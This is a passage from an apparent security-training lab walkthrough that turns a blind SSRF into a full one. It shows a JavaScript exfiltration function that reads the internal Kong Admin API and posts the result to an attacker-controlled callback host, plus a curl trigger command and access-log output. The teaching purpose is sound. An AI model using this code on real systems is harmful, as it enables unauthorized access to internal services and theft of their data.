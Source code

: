 The Render service returns its results to the File service. The File service returns the HTTP 403 Forbidden response because we are not authenticated.

Exercise
Repeat the steps above and execute JavaScript in the Headless Chrome browser.

##### Using JavaScript to Exfiltrate Data
Our next goal is to use JavaScript to exfiltrate data, essentially turning our blind SSRF into a normal SSRF. We'll attempt to use JavaScript to call the Kong Admin API from inside the network. Remember, such an HTTP request would originate from the host running the Headless Chrome browser. The containers seem to have network connections that allow internal communication between themselves on ports that are not exposed externally as evidenced by the SSRF being able to access port 8001 on (what we perceive to be) the Kong API Gateway host. We can reasonably assume the Headless Chrome browser will also be able to access the same port as well.

The default behavior of a user-defined bridge network in Docker is for containers to expose all ports to each other.1 This description seems to match the environment we are operating in. A port needs to be explicitly published to be accessible from outside the network. This would explain why we can access port 8000 on the Kong API Gateway container from Kali (it is published) and why the Render Service can access port 8001 on the Kong API Gateway container (it is not published but exposed internally by the network).

Let's create a new HTML page with a JavaScript function. First, the function will make a request to the Kong Admin API. If CORS is enabled and permissive enough on the Admin API, our JavaScript function will be able to access the response body and send it back to the web server running on our Kali host. If this doesn't work, we will have to consult the documentation for the Kong Admin API and determine what we can do without CORS.

function exfiltrate() {
    fetch("http://172.16.16.2:8001")
    .then((response) => response.text())
    .then((data) => {
        fetch("http://192.168.118.3/callback?" + encodeURIComponent(data));
    }).catch(err => {
        fetch("http://192.168.118.3/error?" + encodeURIComponent(err));
    }); 
}
Listing 46 - Sample JavaScript function to exfiltrate data

After placing the JavaScript function in an HTML file in our webroot, we will again call the Render API on the new HTML page.

kali@kali:~$ curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://192.168.118.3/exfil.html"}' http://apigateway:8000/files/import 
{"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}
Listing 47 - Calling the Render API on exfil.html

When we check access.log, we should have the callback message.

kali@kali:~$ sudo tail /var/log/apache2/access.log 
...
192.168.120.135 - - [25/Feb/2021:13:18:47 -0500] "GET /exfil.html HTTP/1.1" 200 562 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
192.168.120.135 - - [25/Feb/2021:13:18:47 -0500] "GET /callback?%7B%22plugins%22%3A%7B%22enabled_in_cluster%22%3A%5B%22key-auth%22%5D%2C%22available_on_server%22%3A%7B%22grpc-web%22%3Atrue%2C%22correlation-id%22%3Atrue%2C%22...042%2C%22mem_cache_size%22%3A%22128m%22%2C%22pg_max_concurrent_queries%22%3A0%2C%22nginx_main_worker_p" 414 0 "-" "-"
Listing 48 - Excerpt from access.log
